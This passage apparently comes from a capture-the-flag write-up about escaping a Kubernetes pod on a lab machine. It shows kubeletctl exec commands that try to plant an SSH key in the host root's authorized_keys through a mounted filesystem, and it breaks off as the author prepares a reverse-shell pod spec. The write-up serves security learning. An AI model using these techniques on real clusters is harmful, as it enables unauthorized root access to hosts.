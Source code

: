 `kubeletctl` doesn't seem to process command quite like I'm expecting. I
tried creating `/mnt/root/.ssh` and then writing an`authorized_keys`
file:



    oxdf@hacky$ kubeletctl exec "mkdir /mnt/root/.ssh/" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    oxdf@hacky$ kubeletctl exec "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' >> /mnt/root/.ssh/authorized_keys" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' >> /mnt/root/.ssh/authorized_keys



Looking closely, it seems to echo everything, including the
`>> /mnt/root/.ssh/authorized_keys` bit.

I played with `cat` a bit as well and got the same results:



    oxdf@hacky$ kubeletctl exec "cat /etc/issue" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    Debian GNU/Linux 9 \n \l

    oxdf@hacky$ kubeletctl exec "cat /etc/issue > /tmp/a" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    Debian GNU/Linux 9 \n \l

    cat: '>': No such file or directory
    cat: /tmp/a: No such file or directory
    command terminated with exit code 1
    oxdf@hacky$ kubeletctl exec "cat /etc/issue | tee /tmp/a" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    Debian GNU/Linux 9 \n \l

    cat: '|': No such file or directory
    cat: tee: No such file or directory
    cat: /tmp/a: No such file or directory
    command terminated with exit code 1



It's treating `>` and `/tmp/a` as arguments for `cat`, not as
redirection to a file. The `|` has the same issue.

#### Shell

At this point I was really close to giving up. The only path I see to
getting a root shell is to write to the host file system, but nothing I
could think of would let me. Then I remembered what I did in
Unobtainium. There, I was launching the Alpine container, and if I
didn't give it a startup command, it would launch and immediately die.
So I gave it a command:



        command: ["/bin/sh"]
        args: ["-c", "sleep 300000"]



I'll create a `evil-pod2.yaml` that's a copy of the one above, but this
time, I'll add a reverse shell as the command:
